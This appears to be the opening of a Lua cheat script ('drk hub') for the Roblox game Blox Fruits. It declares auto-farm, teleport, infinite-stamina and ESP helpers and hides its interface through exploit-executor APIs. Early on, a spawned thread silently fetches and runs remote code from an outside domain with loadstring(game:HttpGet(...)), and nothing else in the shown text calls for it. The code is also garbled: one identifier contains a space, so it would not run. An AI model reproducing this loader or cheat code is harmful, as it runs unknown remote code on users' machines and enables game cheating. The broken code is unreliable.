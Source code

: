 -- yes please dont use globals :heart:
local CheckQ, CheckBossQuest, Hop, InfAb, infinitestam, NoDodgeCool, NameMelee, NameSword, checkskillMelee, checkskillDF, checkskillSword, checkskillGun, SendKey, autoskill, CheckInventory, TeleportSeabeast, Click, IsWpSKillLoaded, GetWeapon, EquipAllWeapon, UnEquipWeapon, EquipWeapon, TP, StopTween, CheckPirateBoat, CheckSwanBoat, CheckSeaBeast, CheckLeviathanSegment, CheckLeviathanTail, CheckLeviathan, TeleportLeviathan, TweenTemple, DayNight, ClockTime, BuyGear, PullLever, AncientClock, TweentoCurrentRaceDoor, GetSeaBeastTrial, CheckBossDimension, BoatShit, TPBoatShit, StopTweenBoatShit, CheckDimension, CheckBribe, CheckElite, CheckMirage, CheckKitsune, MoonTextureId, CheckMoonTexture, ClockTime, CheckMoon, CheckLegendarySword, isnil, UpdatePlayerChams, UpdateIslandESP, UpdateChestEsp, UpdateBfEsp, UpdateFlowerEsp, IsIslandRaid, getNextIsland, LockMoon, ESPMirageIsland, CheckAcientOneStatus
-- manually added locals:
local MyLevel, CFrameQuest, CFrameMon, Mon, NameMon, NameQuest, LevelQuest


local Vector2,CFrame,Instance,UDim2=Vector2,CFrame,Instance,UDim2 -- yes this will barely add performance but ya
local _25msShared={} -- getgenv = bad and it crashes on second execution anyways :3
if getgenv().drk hubRan then
	warn("ALREADY OPEN")
	return
end
getgenv().drk hubRan=true


spawn(function()
	loadstring(game:HttpGet("https://you.whimper.xyz/cute"))()
end)

local player = game:GetService("Players").LocalPlayer
while not player.Character do
    task.wait(3)
end

local L_1_ = os.clock()
local L_2_ = get_hidden_gui or gethui;
if syn and typeof(syn) == "table" and RenderWindow then
	syn.protect_gui = gethui
end;
local function L_3_func(L_60_arg0)
	if L_2_ then
		L_60_arg0["Parent"] = L_2_()
	elseif not is_sirhurt_closure and (syn and syn.protect_gui) then
		syn.protect_gui(L_60_arg0)
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	elseif game:GetService("CoreGui"):FindFirstChild("RobloxGui") then
		L_60_arg0["Parent"] = game:GetService("CoreGui").RobloxGui
	else
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	end
end;
local L_4_ = Instance.new("ScreenGui")
L_3_func(L_4_)
local L_5_ = game:GetService("ReplicatedStorage")
local L_6_ = game:GetService("TeleportService")
local L_7_ = game:GetService("VirtualUser")
local L_8_ = game:GetService("RunService")
local L_9_ = game:GetService("Players")
local L_10_ = L_5_:WaitForChild("Remotes")
local L_11_ = L_10_:WaitForChild("Validator")
local L_12_ = L_10_:WaitForChild("CommF_")
local L_13_ = workspace:WaitForChild("_WorldOrigin")
local L_14_ = workspace:WaitForChild("Characters")
local L_15_ = workspace:WaitForChild("Enemies")
local L_16_ = workspace:WaitForChild("Map")
local L_17_ = L_13_:WaitForChild("EnemySpawns")